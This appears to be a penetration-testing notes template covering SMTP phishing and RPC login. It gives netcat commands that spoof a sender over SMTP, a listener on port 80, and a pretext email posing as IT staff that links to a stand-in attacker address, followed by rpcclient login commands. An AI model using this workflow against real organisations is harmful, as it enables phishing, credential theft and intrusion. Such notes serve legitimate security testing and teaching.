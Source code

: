 ~~~ad-note
title:Steps to Reproduce: Phishing Attack
collapse:yes

If there is any indicative of users expecting a link, we can try to launch a phishing attack by accessing SMTP once again and sending a link that points to a listener:

```bash
nc -nv <% machineIp %> 25
helo hacker
MAIL FROM: (impersonated user)@domain
RCPT TO: (target user)@domain

```

We start a listener:

```bash
rlwrap nc -nlvp 80
```

We write the body, containing a link and send it:

```bash
DATA
Subject: Phishing

Hello,

This is Andy from IT, unfortunately we had a problem with our database. We need you to please register at http://ATTKIP/. Please let me know if you encounter any problems.

Regards,
IT
.
```

Once we add that final dot the message is sent, keep checking the listener to see if any callbacks are received.
~~~

### RPC (135, 593 TCP)

> [135, 593 - Pentesting MSRPC | HackTricks | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc)

~~~ad-check
title:Logging into RPC

```bash
rpcclient <% machineIp %> -U 'user%pass' 
```

```bash
rpcclient <% machineIp %> -U 'guest%'
```

*Screenshot*
___


~~~

